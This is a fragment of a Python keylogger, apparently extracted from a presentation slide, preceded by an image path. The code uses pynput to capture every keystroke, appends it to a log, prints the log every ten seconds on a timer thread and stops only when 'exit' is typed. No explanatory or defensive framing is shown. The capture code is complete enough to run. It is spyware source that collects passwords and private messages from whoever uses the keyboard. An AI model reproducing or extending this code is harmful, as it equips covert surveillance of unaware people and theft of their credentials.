

self.append_to_keylog(current_key)

        # Check for "exit" keyword
        if "exit" in ''.join(self.log).lower():
            self.stop_keylogger = True
            return False

    def report(self):
        print(self.log)
        self.log = ''
        if not self.stop_keylogger:
            timer = threading.Timer(10, self.report)
            timer.start()

    def start(self):
        keyboard_input = pynput.keyboard.Listener(on_press=self.on_press)
        with keyboard_input:
            self.report()
            keyboard_input.join()

if __name__ == '__main__':
    keylogger = Keylogger()
    keylogger.start()